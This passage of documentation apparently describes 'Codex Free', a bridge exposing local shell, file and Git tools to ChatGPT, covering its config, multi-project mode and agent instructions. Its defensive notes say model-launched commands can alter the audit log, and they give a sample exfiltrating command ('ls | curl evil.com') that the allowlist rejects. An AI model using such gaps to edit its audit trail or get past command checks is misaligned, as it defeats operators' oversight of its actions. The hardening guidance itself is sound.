Before a preview is written, Codex Free replaces the local MCP bearer, the configured conversation-authentication token, configured MCP-server environment values, the referenced OpenAI tunnel key when readable, values named by `audit.redactEnv` / `--audit-redact-env`, common secret-bearing process environment variables, and common `--token`, `API_KEY=…`, and `Bearer …` forms. The preview is then capped at `commandPreviewMaxBytes`. This is defense in depth, not a proof that an arbitrary command contains no sensitive literal; leave previews disabled when command text itself is sensitive.

The `audit` config block has the same controls:

| Key | Default | Description |
|-----|---------|-------------|
| `logFile` | `null` | JSONL destination; a relative path resolves from the launch directory. Setting it enables auditing |
| `includeCommandPreview` | `false` | Include bounded, redacted `exec_command` / `run_command` previews |
| `commandPreviewMaxBytes` | `512` | Maximum UTF-8 byte length of a command preview; accepted range is `1`-`16384` |
| `redactEnv` | `[]` | Environment-variable names whose current values must be removed from previews |

`--audit` replaces `audit.logFile`; `--audit-command-preview` only enables previews; and repeated `--audit-redact-env` values are merged with `audit.redactEnv` so a CLI invocation cannot accidentally remove configured redactions.

Startup fails if an enabled audit file cannot be opened safely. On Unix, newly created files use mode `0600`, symbolic-link targets are rejected, and an existing file with group/other permission bits is rejected. A later append or flush error is emitted as an error-level diagnostic without changing the result of a tool that may already have had side effects.

This is an operational activity log, not a tamper-evident security boundary. Model-launched commands run as the same OS user and can modify any audit file they can locate and access. Keep the file outside the project access root, restrict its directory permissions, and forward it to a separately protected collector when independent evidence is required.

The `openaiTunnel` block enables OpenAI's native outbound tunnel:

| Key | Default | Description |
|-----|---------|-------------|
| `tunnelId` | required | Existing `tunnel_…` identifier from OpenAI Platform |
| `apiKeyRef` | `"env:CONTROL_PLANE_API_KEY"` | Runtime API-key reference. Only `env:NAME` and `file:/path` are accepted; literal keys are rejected |
| `clientPath` | verified managed runtime | Explicit official `tunnel-client` or `tunnel-client-runtime` binary. Relative paths resolve from the launch directory |
| `organizationId` | - | Optional organization ID passed as `OpenAI-Organization` by the official client |

The `quickstart` command writes its runtime key to
`~/.codex-free/openai-tunnel/credentials/<tunnel-id>.key` and sets `apiKeyRef` to
that absolute `file:` path. It never writes the key itself into
`codex.config.json`; on Unix, the credential directory is mode `0700` and the key
file is mode `0600`.

Native mode deliberately cannot be combined with a caller-supplied `apiKey` / `--api-key`: Codex Free generates a high-entropy bearer token for the loopback MCP hop and injects it into the tunnel runtime through static MCP and discovery headers. Host validation is forced to loopback authorities and permissive browser CORS is disabled.

The OpenAI runtime key authenticates the outbound control-plane connection. Codex Free resolves the configured `env:NAME` or `file:/path` reference once, passes the value to the tunnel child under a private synthetic environment name, and removes the original environment variable from model-launched commands and bridged MCP children. The tunnel runtime starts with a small allowlist of ordinary OS variables rather than inheriting tunnel-client configuration, proxy, header, or trust-store overrides from the launching shell. On Unix, a referenced key file must not be readable by group or other users. These measures prevent accidental inheritance; they do not create a secret boundary against hostile code running as the same OS user, which can potentially inspect same-user processes or read an accessible key file.

The top-level `multiProject` key is the config-file equivalent of `--multi-project`. In that mode the process still reads one static `codex.config.json`; project selection changes the effective work directory used by project-scoped tools, not the server configuration itself. The native Codex project table is the exception to the startup snapshot: `list_projects` rereads it on every call so newly trusted projects become discoverable without restarting Codex Free. ChatGPT conversation bindings are independent of the `memory` block and remain enabled even when `memory.enabled` is `false`.

`projectCloneDir` selects where `set_project_root` places a repository that is requested by GitHub URL but has no matching local checkout. It defaults to the multi-project access root (`--work-dir`); a relative value is resolved against that access root, while `--project-clone-dir` overrides the file setting. The directory must already exist, must be a directory, and must canonicalize to the access root or one of its descendants. The destination follows normal `git clone` naming (`<projectCloneDir>/<repository-name>`); an unrelated file or checkout at that path is never overwritten. Branch URLs clone the named branch when a repository must be created, while PR and commit URLs clone the repository and then detach at the fetched target commit.

The `worktrees` block controls isolation between conversations selecting the same Git project:

| Key | Default | Description |
|-----|---------|-------------|
| `mode` | `"auto"` | `"auto"` lets the first conversation use the selected checkout and gives later conversations managed worktrees; `"always"` isolates every conversation; `"never"` preserves direct-checkout sharing |
| `root` | Codex worktree location | Parent directory for managed worktrees; overridden by `--worktree-root` |
| `upstreamRefreshMode` | Codex setting or `"never"` | `"best-effort"` refreshes a tracked upstream before worktree creation without making fetch failure fatal |
| `autoCleanupEnabled` | Codex setting or `true` | On startup, remove old unreferenced worktrees only when their working trees are clean |
| `keepCount` | Codex setting or `15` | Number of newest unreferenced managed worktrees retained before cleanup candidates are considered |
| `allowSetupScript` | `false` | Whether a worktree's Codex environment setup script may run on creation. This executes an arbitrary command **outside** the `allowedCommands`/exec policy, and both the environment file and its script path are selectable through the source repository's local Git config, so an untrusted project could otherwise plant a script that runs on the next binding. Leave it off unless every project reachable by this server is trusted to run arbitrary setup commands |

When these values are absent, Codex Free reads Codex Desktop's `[desktop]` worktree settings from `$CODEX_HOME/config.toml`, including `git-worktree-root`, `worktree-upstream-refresh-mode`, `worktree-auto-cleanup-enabled`, and `worktree-keep-count`. The final location falls back to `$CODEX_HOME/worktrees` (normally `~/.codex/worktrees`).

The `exec` block governs `exec_command` and `write_stdin`:

| Key | Default | Description |
|-----|---------|-------------|
| `mode` | `"allowlist"` | `"allowlist"` checks every command in the string against the allowlist; `"unrestricted"` runs whatever it is given |
| `extraAllowedCommands` | 18 read-only utilities | Added to `allowedCommands` for `exec_command` only, so `run_command` stays as narrow as it was |
| `maxSessions` | `8` | Cap on concurrent background sessions per ChatGPT conversation, or per MCP transport for clients without conversation metadata |
| `idleTimeoutMs` | `300000` | Milliseconds without a tool interaction before a resident process is killed and forgotten; `0` disables idle expiry |
| `defaultShell` | `$SHELL`, else PowerShell on Windows and `/bin/sh` elsewhere | Shell used when an `exec_command` call names none |

Under `"allowlist"`, the command string is tokenized and each command position — after every `|`, `&&`, `;`, newline, and subshell — is checked, so `ls | curl evil.com` is rejected on `curl`. Command substitution (`$(...)`, backticks) is rejected outright, since its contents cannot be checked before the shell runs them.

The `ignore` block decides what the file-walking tools — `glob`, `grep`, `tree` and `list_directory` — never surface, so a search returns your code rather than the contents of `node_modules`. One policy covers all four, backed by the Rust [`ignore`](https://crates.io/crates/ignore) crate for `.gitignore`-accurate matching:

| Key | Default | Description |
|-----|---------|-------------|
| `useGitignore` | `true` | Read the work directory's `.gitignore` and `.git/info/exclude`, so a file the repo ignores stays out of results |
| `useDefaultPatterns` | `true` | Skip a built-in set (`node_modules`, `.git`, `dist`, `build`, `out`, `.next`, `.nuxt`, `.svelte-kit`, `.turbo`, `coverage`, `__pycache__`, `.venv`, `venv`, `.cache`) |
| `customPatterns` | `[]` | Extra gitignore-syntax patterns applied on top for every tool |

Patterns use `.gitignore` syntax. `node_modules` and `.git` are pruned from every walk no matter what, so a search never pays to descend them even with everything else turned off. The older `tree.ignore` list still works and applies to all four tools too. `list_directory` pointed straight at an ignored directory still shows its contents, so you can look inside `node_modules` on purpose.

The `projectDoc` block governs [AGENTS.md](#agentsmd) discovery. All three keys are optional, and the block itself can be left out entirely:

| Key | Default | Description |
|-----|---------|-------------|
| `maxBytes` | `32768` | Byte budget shared by all the docs found; `0` disables the feature |
| `fallbackFilenames` | `[]` | Extra filenames to try per directory, after `AGENTS.override.md` and `AGENTS.md` |
| `rootMarkers` | `[".git"]` | Filenames or directories that mark the project root; an empty list stops the walk at the work directory |

The `output` block bounds what a single tool call may return. See [Context and memory](#context-and-memory):

| Key | Default | Description |
|-----|---------|-------------|
| `maxToolOutputTokens` | `10000` | Approximate token ceiling applied independently to textual `content` and `structuredContent` visible to the model. Call-level command budgets may lower it but cannot raise it |
| `maxFileLines` | `1000` | Lines `read_file` returns per call; a caller's own `limit` can lower this but not raise it |
| `maxFileBytes` | `131072` | Byte ceiling for the same window, which is what actually bounds a minified file |
| `maxEntries` | `500` | Results per `glob`, `grep`, or `list_directory` call |
| `maxTreeNodes` | `1000` | Nodes in one `tree` walk, counted across the whole tree rather than per directory |

The `review` block bounds presentation without changing checkpoint semantics:

| Key | Default | Description |
|-----|---------|-------------|
| `maxPatchBytes` | `4194304` | Largest complete binary-capable patch attached to the review widget's component-only result metadata. The 4 MiB default is regression-tested with 10,000 changed code lines of roughly 300 bytes each; unusually long lines and large binary patches can still exceed it. A larger patch is omitted rather than cut mid-hunk, while file metadata and aggregate statistics remain available. `0` disables patch bodies |

The `artifactIngress` block governs [native host-file ingress](#native-host-file-ingress):

| Key | Default | Description |
|-----|---------|-------------|
| `enabled` | `true` | Expose `import_host_file`; `false` removes the tool from `tools/list` |
| `maxFileBytes` | `104857600` | Maximum downloaded bytes per file (100 MiB, approximately 104.9 MB), enforced from both declared and streamed size |
| `requestTimeoutMs` | `120000` | Whole import deadline, including network transfer and publication |
| `idleTimeoutMs` | `30000` | Maximum wait between response-body chunks; must not exceed `requestTimeoutMs` |
| `maxRedirects` | `3` | Maximum manually validated redirects, between `0` and `10` |
| `maxConcurrentDownloads` | `2` | Process-wide concurrent import cap, between `1` and `16` |
| `allowedHosts` | `["*"]` | Host patterns a download URL and every redirect hop must match. `"*"` accepts any public HTTPS host while rejecting internal/reserved addresses (loopback, private, link-local, unique-local, CGNAT, `localhost`, cloud metadata). A bare host (`files.example.com`) matches exactly; a leading dot (`.example.com`) matches that host and its subdomains; an explicitly named host is trusted as given, including an internal one |

The `artifactEgress` block governs [native host-file egress](#native-host-file-egress):

| Key | Default | Description |
|-----|---------|-------------|
| `enabled` | `true` | Expose `export_host_file`; `false` removes the tool from `tools/list` |
| `maxFileBytes` | `104857600` | Maximum bytes in one exported snapshot (100 MiB, approximately 104.9 MB), checked before and during the read |
| `maxCachedBytes` | `268435456` | Process-wide payload-byte ceiling for live immutable snapshots (256 MiB, approximately 268.4 MB); the oldest references are evicted when necessary |
| `maxReferences` | `64` | Maximum number of live exported-file references, between `1` and `1024`; the oldest are evicted when the bound is reached |
| `referenceTtlMs` | `300000` | Lifetime of an opaque resource capability after the tool call (5 minutes). Expired references return `resource_not_found`; call `export_host_file` again to create a fresh one |

The `memory` block governs `remember`, `recall` and the plan `update_plan` saves:

| Key | Default | Description |
|-----|---------|-------------|
| `enabled` | `true` | `false` turns persistence off entirely; nothing is read or written |
| `dir` | `~/.codex-free/projects/<name>-<hash of work-dir>` | Where the state file lives. Outside the repository by default. In multi-project mode, an explicit `dir` is treated as a base directory and each selected project gets its own hashed child directory |
| `maxBytes` | `16384` | Budget for all notes together. A note over it is rejected, not silently evicted |

The `skills` block governs `SKILL.md` discovery. See [Skills](#skills):

| Key | Default | Description |
|-----|---------|-------------|
| `enabled` | `true` | `false` searches nothing; both tools say so and the catalogue leaves `instructions` |
| `dirs` | `~/.agents/skills`, `~/.codex/skills`, `~/.claude/skills` | User-scope directories, **replacing** the home-directory defaults. Relative paths resolve against the work directory; project-scope roots are unaffected |
| `includePlugins` | `true` | Discover installed Claude Code plugin skills. Setting `dirs` disables this unless you set it back to `true` |

The `codexMcp` block controls [automatic import of MCP servers configured in Codex](#bridging-other-mcp-servers):

| Key | Default | Description |
|-----|---------|-------------|
| `enabled` | `true` | Import Codex MCP servers (direct `config.toml` parsing plus CLI discovery); `false` disables only MCP-server import — project catalogue discovery is unaffected — unless the explicit `--codex-cli` requirement overrides it |
| `useCli` | `true` | Enrich direct config parsing with `codex mcp list/get --json`, which includes MCP servers contributed by enabled Codex plugins. `false` keeps direct `config.toml` parsing but does not invoke Codex |
| `cliPath` | `CODEX_CLI_PATH`, then `codex` on `PATH` | Codex executable used for CLI enrichment. Relative paths resolve from the directory where Codex Free was launched |

The `projectCatalog` block controls project discovery in [multi-project mode](#multi-project-mode). It is independent from `codexMcp`: disabling imported MCP servers does not disable native project discovery, and vice versa.

| Key | Default | Description |
|-----|---------|-------------|
| `codexConfig.enabled` | `true` | Read the top-level native Codex `[projects]` table as one candidate provider |
| `codexConfig.trustedOnly` | `true` | Include only native entries whose `trust_level` is `"trusted"`; this is a discovery filter, not the Codex Free authorization boundary |
| `entries` | `[]` | Optional explicit paths and semantic metadata. An entry may augment an imported path or add a path absent from native Codex, but it cannot escape `--work-dir` |

Each `entries` element supports:

| Key | Required | Description |
|-----|----------|-------------|
| `path` | Yes | Absolute path or a path relative to the access root |
| `name` | No | Display name; defaults to the canonical directory basename |
| `aliases` | No | Additional case-insensitive intent-matching names |
| `description` | No | Short explanation of the project's purpose, searched by `list_projects` |

For example:

```json
{
  "multiProject": true,
  "projectCatalog": {
    "codexConfig": {
      "enabled": true,
      "trustedOnly": true
    },
    "entries": [
      {
        "path": "codex-free",
        "name": "Codex Free",
        "aliases": ["ChatGPT MCP bridge"],
        "description": "Rust MCP bridge exposing local programming tools to ChatGPT"
      }
    ]
  }
}
```

Metadata overlays are merged by canonical path. Explicit entries are operator-authored providers in their own right, so they may include a path that native Codex marks untrusted or does not record; they still cannot widen the access-root boundary. Aliases are deduplicated case-insensitively, and aliases shared by different projects produce a warning because they make intent matching ambiguous. Catalogue construction never opens a candidate's README, source, `.codex/`, or `AGENTS.md`; project contents remain unread until the conversation has selected that project.

GitHub URL selection is separate from catalogue listing. Before cloning, Codex Free checks the normal destination, catalogue candidates, and immediate child directories of `projectCloneDir`, then compares normalized GitHub remotes at each Git top level. Exactly one match is reused; multiple matches are rejected as ambiguous so the caller can pass an explicit path. Accepted forms are repository-root URLs on `github.com` (`https://github.com/owner/repo`, `git@github.com:owner/repo.git`, and equivalent SSH forms), HTTPS branch URLs (`https://github.com/owner/repo/tree/<branch>`), HTTPS pull-request URLs (`https://github.com/owner/repo/pull/<number>`), and HTTPS commit URLs (`https://github.com/owner/repo/commit/<sha>`). For branch URLs, everything after `/tree/` is interpreted as the branch ref, including `/` characters. Commit URLs require the full 40-character hexadecimal object ID and normalize it to lowercase. Credential-bearing URLs, unsupported repository subpages, query strings, fragments, insecure transports, and non-GitHub hosts are rejected.

The `openaiTunnel` block, `allowedHosts` array, and `mcpServers` map are covered under [Native OpenAI tunnel](#native-openai-tunnel-recommended), [Host allowlist](#host-allowlist), and [Bridging other MCP servers](#bridging-other-mcp-servers).

## Native host-file ingress

ChatGPT attachments and generated files live in host-managed storage, not automatically on the machine running Codex Free. `import_host_file` closes that gap:

```text
user attaches or ChatGPT generates a file
        ↓
the agent calls import_host_file(file, path)
        ↓
ChatGPT supplies a temporary authorized native-file value
        ↓
Codex Free streams the exact bytes into the active project
```

The file argument follows ChatGPT's native file-parameter contract and is marked through `_meta["openai/fileParams"]`; the model does not pass an arbitrary URL. `path` is a required new file path relative to the active project or managed worktree. The destination is invisible until the complete download has passed its size and integrity checks, and an existing file or symlink is never replaced.

Source and destination authority are deliberately narrow:

- only HTTPS URLs are accepted, constrained by the configurable `artifactIngress.allowedHosts` allowlist and revalidated on every redirect hop; the default `"*"` wildcard admits any public host but always rejects internal and reserved targets (loopback, private, link-local, unique-local, CGNAT, `localhost`, the cloud metadata address), so an injected URL cannot reach internal services;
- proxy environment variables, caller-supplied headers, cookies and ambient credentials are not used;
- the temporary signed URL and file ID are never returned or persisted, and RMCP framework events are excluded from the tracing layer so `RUST_LOG` cannot expose native-file arguments before tool dispatch;
- destination traversal and symlink escapes are confined through a capability-based directory handle rather than a lexical path check alone;
- bytes are written to a private same-directory partial, hashed with SHA-256, synchronized, and atomically published through a no-overwrite hard link;
- archive extraction, execution, arbitrary URL fetching and arbitrary local-source paths are outside this tool's contract.

After publication, the result is an ordinary project file. Git, `glob`, `tree`, review tools and normal deletion provide its catalogue and lifecycle; Codex Free does not maintain a second artifact database or TTL.

## Native host-file egress

Machine-local paths are not downloadable by ChatGPT, and returning a large binary file as base64 text would put the encoded payload into the tool result and model context. `export_host_file` instead uses MCP's resource flow:

```text
the agent creates or selects a project file
        ↓
the agent calls export_host_file(path)
        ↓
Codex Free opens the file through the active-project capability and snapshots its exact bytes
        ↓
the tool returns a standard MCP resource_link with an opaque codex-free://artifact/... URI
        ↓
the connector host resolves that URI through resources/read and receives a base64 blob resource
```

The returned resource describes the original filename, MIME type and byte count. The structured receipt includes the project-relative source path, SHA-256 digest and remaining lifetime, but deliberately does not duplicate the bearer-capability URI into ordinary structured data. It never exposes an absolute filesystem path or asks the model to copy the file contents through text.

The resource is an immutable snapshot, not a delayed path read. Replacing, truncating, deleting or retargeting the source after `export_host_file` returns cannot change the bytes served for that reference. Source access is capability-confined to an existing regular file inside the active project; traversal, absolute paths and symlink escapes fail closed. The read is bounded before allocation and again while streaming so a growing file cannot cross `artifactEgress.maxFileBytes` unnoticed.

Each URI contains a 256-bit random bearer capability. Issued resources are not added to `resources/list`, are shared only through the tool result, and remain in a process-wide in-memory cache so ChatGPT can replace the MCP transport between the tool call and `resources/read`. The cache is bounded by both total bytes and reference count; oldest entries are evicted as needed, every reference expires after `artifactEgress.referenceTtlMs`, and all references disappear when Codex Free restarts. Calling `export_host_file` again creates a fresh snapshot and capability.

## Multi-project mode

By default the server is pinned to one project: `--work-dir` *is* the project root, and every project-scoped tool resolves against it. Multi-project mode turns `--work-dir` into an *access root* instead — a directory beneath which each conversation selects its own project — so a single running server can serve many repositories without a process per repo.

Enable it with `--multi-project` or `"multiProject": true` (see [CLI flags](#cli-flags) and [Config file](#config-file)). One static `codex.config.json` is still read once at startup; selection changes only the effective work directory the project tools use, never the server configuration itself.

Each conversation binds a project exactly once, through the [`set_project_root`](#tools) tool. When neither an exact path nor an exact GitHub URL is known, [`list_projects`](#tools) provides a project-independent enumeration step first:

- The path is relative to the access root or absolute, but its canonical target must be an existing directory inside that root. Traversal (`..`) and symlink escapes are rejected *after* canonicalisation, so a link pointing outside the root cannot smuggle a selection past the check.
- A GitHub URL is normalized into case-insensitive owner/repository identity plus an optional branch, PR, or commit target. Codex Free first reuses an unambiguous matching local Git top level. Otherwise it serializes concurrent requests for that repository, runs non-interactive `git clone` into a private temporary directory below `projectCloneDir`, verifies the resulting remote, and publishes it at `<projectCloneDir>/<repository-name>`. Name collisions fail rather than overwrite data.
- Branch URLs fetch `refs/heads/<branch>`; PR URLs fetch GitHub's `refs/pull/<number>/head`; commit URLs fetch the exact full object ID. A fresh branch clone checks out the named branch, while fresh PR and commit clones detach at the selected commit. For an existing checkout, target fetching does not switch, reset, or otherwise move its `HEAD`.
- The binding belongs to the **ChatGPT conversation**, keyed from `_meta["openai/session"]` (the raw identifier is hashed, never stored), so simultaneous chats can hold different projects and a later turn recovers its own root after MCP reconnects or a server restart. A client that sends no ChatGPT conversation metadata falls back to a binding that lasts only the current MCP transport session.
- With the default worktree mode, the first conversation selecting a Git project uses the source checkout directly. Once that logical project is already assigned, another conversation receives a detached managed worktree under the configured Codex worktree location, preventing concurrent chats from editing the same checkout. A branch, PR, or commit URL also receives a detached worktree when the existing source checkout is on another commit. `always` isolates every selection; `never` uses the source directly and therefore rejects a targeted URL unless that source is already at the requested commit.
- Worktree identity uses the repository's Git common directory plus the selected path relative to its Git root. Linked worktrees are therefore recognised as the same repository, while separate subprojects in a monorepo remain distinct.
- A conversation cannot switch roots once bound — start another chat for a different project. Re-selecting the same canonical path or exact normalized GitHub selection is idempotent. A different repository, branch, PR, or commit URL is rejected before any clone or fetch begins.
- Until a root is selected, project-scoped tools are unavailable and say why. `list_projects` and `set_project_root` are the two project-independent tools present for this workflow.

### Project catalogue semantics

Native Codex records trust decisions in its user-level configuration:

```toml
[projects."/absolute/path/to/project"]
trust_level = "trusted"
```

Codex Free reads those paths as candidates. It does not treat the table as exhaustive: entries may be stale, may represent separate worktrees, and contain no semantic description beyond the path. Explicit `projectCatalog.entries` can therefore add aliases/descriptions or supply projects absent from the native table.

Every candidate still passes Codex Free's own checks. Its path must exist, resolve to a directory, and canonicalize to the access root itself or a descendant; missing entries, files, and symlink escapes are skipped, while duplicate canonical targets are merged into one candidate. Native Codex trust is only catalogue metadata plus the default `trustedOnly` filter. It never grants Codex Free access to a path outside `--work-dir`, and an explicit catalogue entry does not widen that boundary either.

`list_projects` returns a selector relative to the access root, which can be passed unchanged as `set_project_root.path`. Its optional query matches names, aliases, descriptions, and selectors case-insensitively with deterministic exact/prefix/substring ranking. The tool never binds automatically. If several results remain plausible, the agent instructions require asking the user rather than guessing, because a wrong binding cannot be changed in that conversation.

The native table is read live for every `list_projects` call. The file is read-only, the `codex` executable is not required, and project-local `.codex/config.toml` layers are not scanned because they are meaningful only after a project has been selected.

Per-conversation separation extends to saved state: with an explicit `memory.dir`, each selected project gets its own hashed child directory (see the [`memory` block](#config-file)), and conversation bindings stay enabled even when `memory.enabled` is `false`. The end-to-end onboarding flow — select, then request the brief — is in [Starting a chat](#starting-a-chat).

To clear a stray binding, delete its file under `~/.codex-free/conversation-projects/`; there is no tool to re-point an already-bound conversation. A managed worktree remains referenced while that binding exists. Startup cleanup skips referenced or dirty worktrees and only removes older clean, unreferenced entries beyond `keepCount`.

## Review checkpoints and ChatGPT UI

Review state is initialized immediately before the first project-scoped tool call for a conversation or generic MCP transport. That timing captures the checkout as the agent first sees it, before a write, formatter, generator, or shell command can change it. Mutating tool calls and `show_changes` are serialized for the same owner and project through tool completion, so a review cannot advance over a partially completed write. A resident `exec_command` process may continue changing files after its initiating call returns, so every review remains a point-in-time snapshot. Non-Git projects remain usable; inside a Git worktree, a snapshot failure blocks mutating tools rather than silently losing the baseline. Two baselines are maintained:

- **project open** is immutable and shows the complete task diff;
- **last review** advances only when `show_changes` is called with `advance=true` (the default), so the next review is incremental.

`show_changes` accepts `since: "last_review" | "project_open"`, `advance`, and `include_patch`. Use `advance=false` for a read-only inspection. The ordinary model-visible result is a concise aggregate summary with checkpoint status and warnings; it deliberately has no `structuredContent`. Compatible MCP Apps receive bounded file records, rename sources, binary markers, warnings, and the complete unified binary patch through namespaced result `_meta`, which ChatGPT forwards to the component without adding it to model context. Oversized patches are omitted explicitly rather than returned as invalid partial hunks.

Snapshots use Git objects, but they do **not** touch the real index or working tree. Codex Free builds a private temporary index containing only the logical project root, then carries the same literal pathspec through every comparison. If the selected project is `packages/app` inside a monorepo, sibling changes under `packages/other` cannot enter its checkpoint or diff. Paths in the component-only review payload are relative to the selected project, not the repository root.

With ChatGPT's stable `_meta["openai/session"]`, each conversation/project scope stores exactly two namespaced refs under:

```text
refs/codex-free/review/<project-hash>/<conversation-hash>/project-open
refs/codex-free/review/<project-hash>/<conversation-hash>/last-review
```

The raw conversation identifier is never written. The refs survive MCP reconnects and Codex Free restarts. Generic MCP clients receive transport-local in-memory checkpoints instead. Each conversation/project pair retains only its current two referenced snapshots; superseded synthetic commits are ordinary Git-GC candidates. To inspect or remove old conversation refs manually, use `git for-each-ref refs/codex-free/review/` and `git update-ref -d <ref>`. Removing both refs resets that owner to the current scoped state on its next project call.

Codex Free also advertises the standard MCP Apps extension and serves a self-contained resource at `ui://codex-free/review/v3/mcp-app.html`. Compatible ChatGPT developer connectors render `show_changes` as a file, statistic and patch card from component-only result metadata. Textual hunks use GitHub-style old/new line-number gutters, full-width addition/deletion backgrounds, blue hunk headers, bundled language-aware syntax highlighting, and stronger intraline highlights; code wraps inside the card instead of requiring a horizontal scroller. Changed line numbers use the normal code color, context line numbers remain muted, and redundant per-line `+`/`-` markers are omitted. The app requests no extra host border, keeps only the review panel opaque while leaving the surrounding iframe canvas transparent, and begins directly with the collapsible file summary rather than repeating checkpoint and scope metadata above it. No separate web service or public app publication is needed; clients that ignore MCP Apps metadata receive only the concise ordinary text result. Checkpoint advancement completes before that result is returned and does not wait for user interaction. The card remains independently interactive while the model continues, and its overall disclosure, expanded file diffs, and larger-file-list state are persisted as private ChatGPT widget state so an iframe remount restores them. The v2 and prior unversioned resource URIs remain readable, and the widget retains a structured-content fallback solely so historical cards created before component-only review metadata can still remount; current `show_changes` results never populate that model-visible field. The card updates at the `show_changes` tool-call boundary—it is not a continuous filesystem watcher.

## Context and memory

Codex runs against a large context window and keeps its session in a process you control. ChatGPT Web does neither: the window is smaller than most real tasks, and when it fills — or when you open a new chat — the plan and everything learned along the way are gone, with no sign to the model that they ever existed. Codex Free attacks both halves of that.

**Spend the window on less.** Every non-self-managed tool result passes through a 10,000-token model-output ceiling by default. The policy covers both textual `content` and model-visible `structuredContent`; component-only result `_meta` remains outside model context. File and list tools still stop at their semantic paging boundaries and name the argument that continues from where they stopped:

```
(showing lines 1-1000 of 4820 — call again with offset=1000 for the rest)
```

That line matters as much as the cap. Silent truncation reads as "that was the whole file", which is worse than no cap at all. `read_file` has a byte ceiling as well as a line one, because a minified bundle is a single line several megabytes long that a line cap alone would hand back in full. `grep` additionally caps context, match count and individual lines while preserving the actual match inside a long minified line. `exec_command` and `write_stdin` keep Codex's 10,000-token default but clamp larger requests to server policy. `run_command` drains stdout and stderr through bounded head/tail buffers before applying the same model-output policy, so a chatty or timed-out child cannot consume unbounded process memory or context. Oversized arbitrary `structuredContent` becomes a bounded error requesting narrower arguments rather than invalid partial JSON.

**Keep what would be expensive to rediscover.** `remember` writes one keyed note; `recall` hands back the notes and the current plan. `update_plan` persists too, so the plan survives the conversation that made it. Writing to a key that exists replaces it, and an empty value deletes it — a keyed store stays current where an append log accumulates contradictions until it is worthless.

Task state lives in `~/.codex-free/projects/<name>-<hash>/memory.json`, keyed by the absolute active project root. Nothing is written into the repository you pointed the server at, and two checkouts of the same repo do not share notes. Multi-project conversations therefore share task state only when they select the same canonical project root.

ChatGPT project bindings live separately under `~/.codex-free/conversation-projects/<access-root-hash>/<conversation-hash>.json`. The raw `openai/session` value is never written to disk; only its SHA-256-derived key is used as the filename. Each small record contains the canonical access root and selected project root. Delete this directory to forget all conversation bindings. A missing or stale project fails closed rather than silently rebinding the conversation to another directory.

In single-project mode, `instructions` is rebuilt for every MCP session, so a new conversation opens with the saved plan and notes already in front of it, under a `## Saved state` heading between the environment and `AGENTS.md`. In multi-project mode the initialize-time instructions deliberately remain project-neutral: ChatGPT supplies its stable conversation identifier on tool calls, after the MCP initialize exchange. Calling `get_agent_brief` restores an existing conversation binding automatically; for a new conversation it reports that `set_project_root` is required and directs the agent to `list_projects` when the exact path is unknown. After binding, `get_agent_brief` returns the environment, saved state, skills, and `AGENTS.md` for the selected project. If the client ignores `instructions`, one `recall` gets the same saved state after selection.

The division of labour is worth keeping straight: `AGENTS.md` is what is true of the **project** and belongs in the repo; notes are what is true of the **task in flight** and belong here.

## Acting as a Codex agent

A tool list says what a model *can* do; it says nothing about how a careful engineer uses it. Codex closes that gap with a system prompt, and so does this bridge — the behavioural half of `codex-rs/core/gpt-5.2-codex_prompt.md` is ported into the server's `instructions`.

That brief is what stops the client rewriting a file it never read, reverting your uncommitted work, reaching for `git reset --hard`, or making a one-step plan. It carries Codex's editing constraints (ASCII by default, comments only where they earn their place, `apply_patch` over rewrites, and the dirty-worktree rules in full), its planning rules, its code-review posture, and its habit of reporting back concisely without pasting files you already have on disk.

The `initialize` response layers Codex's four in Codex's own order, each outranking the one above it, plus one Codex has no need for:

1. **The agent brief** — how to behave.
2. **The environment** — OS, shell, work directory, command policy.
3. **Saved state** — the plan and notes left by earlier work, when there are any. See [Context and memory](#context-and-memory).
4. **The skill catalogue** — what this project and this user already know how to do, when any is installed. See [Skills](#skills).
5. **`AGENTS.md`** — the project speaking for itself, behind the `--- project-doc ---` marker.

Three parts of Codex's prompt are deliberately dropped. Its `rg` preference is redundant here, since `grep` and `glob` are tools that behave the same on every OS. Its final-answer style rules and clickable file-reference syntax both exist to drive a terminal renderer, and an MCP client renders markdown — importing them would produce CLI-flavoured output in a chat window. What those sections were *for* — brevity, not dumping files, relaying output the user cannot see — is kept.

### Starting a chat

`instructions` is the proper channel, but no client is obliged to show it to its model, and ChatGPT Web is not reliable about it. `get_agent_brief` returns the identical string, so one line is enough to onboard a conversation:

```
Call get_agent_brief and follow it for the rest of this chat.

Task: <what you want done>
```

Everything else — the shell you're on, the allowlist, your repo's `AGENTS.md` — arrives with that one call. If a chat starts drifting back into generic-assistant behaviour, asking for the brief again re-anchors it.

For a new chat in multi-project mode with an exact path, select before requesting the brief:

```
Call set_project_root with path "my-project", then call get_agent_brief and follow it for the rest of this chat.

Task: <what you want done>
```

The path may be relative to the configured access root or absolute, but its canonical target must be an existing directory inside that root. The binding belongs to the ChatGPT conversation, not to the current HTTP/MCP transport, so simultaneous chats may select different projects and later turns recover their respective project roots after reconnects or server restarts. A conversation cannot switch roots after binding; start another chat for another project. Calling `set_project_root` again with the same canonical path is harmless.

An exact GitHub repository, branch, pull-request, or commit URL uses the same tool and clones only when no matching checkout exists:

```
Call set_project_root with path "https://github.com/owner/repository", then call get_agent_brief and follow it for the rest of this chat.

Task: <what you want done>
```

To enter an exact branch, PR, or commit instead of the repository's default
checkout, pass the corresponding GitHub page URL unchanged, for example
`https://github.com/owner/repository/tree/split_db` or
`https://github.com/owner/repository/pull/886`. Commit URLs use the full object ID,
for example `https://github.com/owner/repository/commit/c8cae44bf004a6ac6bfc267c5dfe503d57652103`.

When the task names a project by intent rather than an exact path, let the agent search first:

```
Call list_projects with a query derived from the task. If exactly one candidate is unambiguous, pass its selector to set_project_root; otherwise ask me which project I mean. Then call get_agent_brief and follow it for the rest of this chat.

Task: <what you want done>
```

On a later turn in an already-bound chat, the path does not need to be repeated:

```
Call get_agent_brief and follow it for the rest of this task.

Task: <what you want done>
```

Only project identity is conversation-persistent. A live `exec_command` process and its numeric `session_id` remain tied to the current MCP transport and are deliberately discarded when that transport closes; stale process handles are not resurrected on a later follow-up.

## Shells and the host

Windows, macOS and Linux are all supported natively; there is no WSL or POSIX-emulation layer in between. Which shell runs is decided by name, not by host platform, the same way Codex's `Shell::derive_exec_args` does it:

| Shell | Invoked as |
|-------|------------|
| `sh`, `bash`, `zsh`, anything else | `<shell> -c "<cmd>"` |
| `powershell`, `pwsh` | `<shell> -NoProfile -Command "<cmd>"` |
| `cmd` | `cmd /c "<cmd>"` |

